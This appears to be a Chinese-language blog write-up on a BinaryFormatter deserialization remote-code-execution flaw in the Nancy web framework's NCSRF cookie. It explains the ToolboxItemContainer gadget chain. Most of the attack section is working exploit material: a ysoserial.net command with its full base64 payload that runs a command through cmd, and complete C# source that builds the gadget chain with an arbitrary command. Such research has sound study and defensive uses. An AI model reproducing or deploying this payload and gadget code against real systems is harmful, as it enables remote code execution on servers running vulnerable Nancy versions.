







# Nancy

Nancy是一个轻量级web框架，其cookie中NCSRF字段使用binaryformatter进行序列化反序列化，造成rce。本文主要讲解其反序列化漏洞及ToolboxItemContainer攻击链。

# 环境搭建

直接从GitHub下载nancy的demo案例 https://github.com/NancyFx/Nancy.Demo.Samples

使用vs打开运行



第一次请求返回cookie



```
NCSRF=AAEAAAD%2f%2f%2f%2f%2fAQAAAAAAAAAMAgAAAD1OYW5jeSwgVmVyc2lvbj0wLjE2LjEuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1udWxsBQEAAAAYTmFuY3kuU2VjdXJpdHkuQ3NyZlRva2VuAwAAABw8UmFuZG9tQnl0ZXM%2ba19fQmFja2luZ0ZpZWxkHDxDcmVhdGVkRGF0ZT5rX19CYWNraW5nRmllbGQVPEhtYWM%2ba19fQmFja2luZ0ZpZWxkBwAHAg0CAgAAAAkDAAAASVo2p2wU2YgJBAAAAA8DAAAACgAAAAKiZsnPUc5ZpsU0DwQAAAAgAAAAAovU6IflKN4bOpWdLZCevd6flnf%2f9PrHh5TNnnveth1pCwAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%3d
```

url+base64解码之后



发现是使用binaryformatter进行序列化存储cookie。使用ysoserial.net生成payload

```
PS E:\code\ysoserial.net\ysoserial\bin\Debug> .\ysoserial.exe -f binaryformatter -g ToolboxItemContainer -c calc
AAEAAAD/////AQAAAAAAAAAMAgAAAFhTeXN0ZW0uRHJhd2luZy5EZXNpZ24sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iMDNmNWY3ZjExZDUwYTNhBQEAAAAqU3lzdGVtLkRyYXdpbmcuRGVzaWduLlRvb2xib3hJdGVtQ29udGFpbmVyAgAAABdUYnhJQ19EYXRhT2JqZWN0Rm9ybWF0cxZUYnhJQ19EYXRhT2JqZWN0VmFsdWVzBgUCAAAACQMAAAAJBAAAABEDAAAAAQAAAAYFAAAAIENGX1RPT0xCT1hJVEVNQ09OVEFJTkVSX0NPTlRFTlRTEAQAAAABAAAACQYAAAAFBgAAAEBTeXN0ZW0uRHJhd2luZy5EZXNpZ24uVG9vbGJveEl0ZW1Db250YWluZXIrVG9vbGJveEl0ZW1TZXJpYWxpemVyAgAAAAxBc3NlbWJseU5hbWUGU3RyZWFtAwceU3lzdGVtLlJlZmxlY3Rpb24uQXNzZW1ibHlOYW1lAgIAAAAJBwAAAAkIAAAABAcAAAAeU3lzdGVtLlJlZmxlY3Rpb24uQXNzZW1ibHlOYW1lDAAAAAVfTmFtZQpfUHVibGljS2V5D19QdWJsaWNLZXlUb2tlbgxfQ3VsdHVyZUluZm8JX0NvZGVCYXNlCF9WZXJzaW9uDl9IYXNoQWxnb3JpdGhtGF9IYXNoQWxnb3JpdGhtRm9yQ29udHJvbBJfU3Ryb25nTmFtZUtleVBhaXIVX1ZlcnNpb25Db21wYXRpYmlsaXR5Bl9GbGFncw9fSGFzaEZvckNvbnRyb2wBBwcAAQMDAwMDAwcCAggOU3lzdGVtLlZlcnNpb241U3lzdGVtLkNvbmZpZ3VyYXRpb24uQXNzZW1ibGllcy5Bc3NlbWJseUhhc2hBbGdvcml0aG01U3lzdGVtLkNvbmZpZ3VyYXRpb24uQXNzZW1ibGllcy5Bc3NlbWJseUhhc2hBbGdvcml0aG0jU3lzdGVtLlJlZmxlY3Rpb24uU3Ryb25nTmFtZUtleVBhaXI8U3lzdGVtLkNvbmZpZ3VyYXRpb24uQXNzZW1ibGllcy5Bc3NlbWJseVZlcnNpb25Db21wYXRpYmlsaXR5I1N5c3RlbS5SZWZsZWN0aW9uLkFzc2VtYmx5TmFtZUZsYWdzAgYJAAAACG1zY29ybGliCQoAAAAKfwAAAAYLAAAAQmZpbGU6Ly8vQzovV2luZG93cy9NaWNyb3NvZnQuTkVUL0ZyYW1ld29yay92NC4wLjMwMzE5L21zY29ybGliLmRsbAkMAAAABPP///81U3lzdGVtLkNvbmZpZ3VyYXRpb24uQXNzZW1ibGllcy5Bc3NlbWJseUhhc2hBbGdvcml0aG0BAAAAB3ZhbHVlX18ACASAAAAB8v////P///8AAAAACgTx////PFN5c3RlbS5Db25maWd1cmF0aW9uLkFzc2VtYmxpZXMuQXNzZW1ibHlWZXJzaW9uQ29tcGF0aWJpbGl0eQEAAAAHdmFsdWVfXwAIAQAAAATw////I1N5c3RlbS5SZWZsZWN0aW9uLkFzc2VtYmx5TmFtZUZsYWdzAQAAAAd2YWx1ZV9fAAghAAAACg8IAAAAkQMAAAIAAQAAAP////8BAAAAAAAAAAwCAAAAXk1pY3Jvc29mdC5Qb3dlclNoZWxsLkVkaXRvciwgVmVyc2lvbj0zLjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPTMxYmYzODU2YWQzNjRlMzUFAQAAAEJNaWNyb3NvZnQuVmlzdWFsU3R1ZGlvLlRleHQuRm9ybWF0dGluZy5UZXh0Rm9ybWF0dGluZ1J1blByb3BlcnRpZXMBAAAAD0ZvcmVncm91bmRCcnVzaAECAAAABgMAAACzBTw/eG1sIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9InV0Zi0xNiI/Pg0KPE9iamVjdERhdGFQcm92aWRlciBNZXRob2ROYW1lPSJTdGFydCIgSXNJbml0aWFsTG9hZEVuYWJsZWQ9IkZhbHNlIiB4bWxucz0iaHR0cDovL3NjaGVtYXMubWljcm9zb2Z0LmNvbS93aW5meC8yMDA2L3hhbWwvcHJlc2VudGF0aW9uIiB4bWxuczpzZD0iY2xyLW5hbWVzcGFjZTpTeXN0ZW0uRGlhZ25vc3RpY3M7YXNzZW1ibHk9U3lzdGVtIiB4bWxuczp4PSJodHRwOi8vc2NoZW1hcy5taWNyb3NvZnQuY29tL3dpbmZ4LzIwMDYveGFtbCI+DQogIDxPYmplY3REYXRhUHJvdmlkZXIuT2JqZWN0SW5zdGFuY2U+DQogICAgPHNkOlByb2Nlc3M+DQogICAgICA8c2Q6UHJvY2Vzcy5TdGFydEluZm8+DQogICAgICAgIDxzZDpQcm9jZXNzU3RhcnRJbmZvIEFyZ3VtZW50cz0iL2MgY2FsYyIgU3RhbmRhcmRFcnJvckVuY29kaW5nPSJ7eDpOdWxsfSIgU3RhbmRhcmRPdXRwdXRFbmNvZGluZz0ie3g6TnVsbH0iIFVzZXJOYW1lPSIiIFBhc3N3b3JkPSJ7eDpOdWxsfSIgRG9tYWluPSIiIExvYWRVc2VyUHJvZmlsZT0iRmFsc2UiIEZpbGVOYW1lPSJjbWQiIC8+DQogICAgICA8L3NkOlByb2Nlc3MuU3RhcnRJbmZvPg0KICAgIDwvc2Q6UHJvY2Vzcz4NCiAgPC9PYmplY3REYXRhUHJvdmlkZXIuT2JqZWN0SW5zdGFuY2U+DQo8L09iamVjdERhdGFQcm92aWRlcj4LDwoAAAAQAAAAAgAAAAAAAAAABAAAAAAAAAAEDAAAAA5TeXN0ZW0uVmVyc2lvbgQAAAAGX01ham9yBl9NaW5vcgZfQnVpbGQJX1JldmlzaW9uAAAAAAgICAgEAAAAAAAAAAAAAAAAAAAACw==
```

url编码之后发送弹出计算器



反序列化点位于Nancy.DefaultObjectSerializer.Deserialize()



# ToolboxItemContainer攻击链

yso中用到了两个类



直接来看ToolboxItemSerializer的反序列化构造函数



发现将Stream字段中的byte数组使用binaryformatter进行反序列化，我们可以使用TextFormattingRunProperties填充byte数组，达到rce。自己写payload

```csharp
using Microsoft.VisualStudio.Text.Formatting;
using System;
using System.Collections.Specialized;
using System.Diagnostics;
using System.IO;
using System.Reflection;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Formatters.Binary;
using System.Windows.Data;
using System.Windows.Markup;

namespace NancySerialize
{
    class Program
    {
        static void Main(string[] args)
        {
            BinaryFormatter binaryFormatter = new BinaryFormatter();
            byte[] vs;
            using (MemoryStream memory = new MemoryStream())
            {
                binaryFormatter.Serialize(memory, new TextFormattingRunPropertiesMarshal("calc"));
                vs = memory.ToArray();
            }
            ToolboxItemSerializerMarshal toolBox = new ToolboxItemSerializerMarshal(vs);
            using (MemoryStream memoryStream = new MemoryStream())
            {
                binaryFormatter.Serialize(memoryStream, toolBox);
                memoryStream.Position = 0;
                binaryFormatter.Deserialize(memoryStream);
            }
        }
    }
    [Serializable]
    public class ToolboxItemSerializerMarshal : ISerializable
    {
        public ToolboxItemSerializerMarshal(byte[] payload)
        {
            Payload = payload;
        }

        private byte[] Payload { get; }
        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            info.SetType(Type.GetType("System.Drawing.Design.ToolboxItemContainer+ToolboxItemSerializer, System.Drawing.Design, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a"));
            info.AddValue("AssemblyName", new AssemblyName());
            info.AddValue("Stream", Payload);
        }
    }
    [Serializable]
    public class TextFormattingRunPropertiesMarshal : ISerializable
    {
        public static string gadget(string cmd)
        {
            // ObjectDataProvider
            ProcessStartInfo psi = new ProcessStartInfo();
            psi.FileName = "cmd.exe";
            psi.Arguments = $"/c {cmd}";
            StringDictionary dict = new StringDictionary();
            psi.GetType().GetField("environmentVariables", BindingFlags.Instance | BindingFlags.NonPublic).SetValue(psi, dict);
            Process p = new Process();
            p.StartInfo = psi;
            ObjectDataProvider odp = new ObjectDataProvider();
            odp.MethodName = "Start";
            odp.IsInitialLoadEnabled = false;
            odp.ObjectInstance = p;

            return XamlWriter.Save(odp);
        }
        protected TextFormattingRunPropertiesMarshal(SerializationInfo info, StreamingContext context)
        {
        }
        string _xaml;
        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            Type typeTFRP = typeof(TextFormattingRunProperties);
            info.SetType(typeTFRP);
            info.AddValue("ForegroundBrush", _xaml);
        }
        public TextFormattingRunPropertiesMarshal(string cmd)
        {
            _xaml = gadget(cmd);
        }
        public TextFormattingRunPropertiesMarshal()
        {
            _xaml = gadget("calc");
        }
    }
}
```

比yso的要简洁一些。当然这个攻击链限制仍然在于TextFormattingRunProperties

# 后文

可以使用TypeConfuseDelegate替换TextFormattingRunProperties。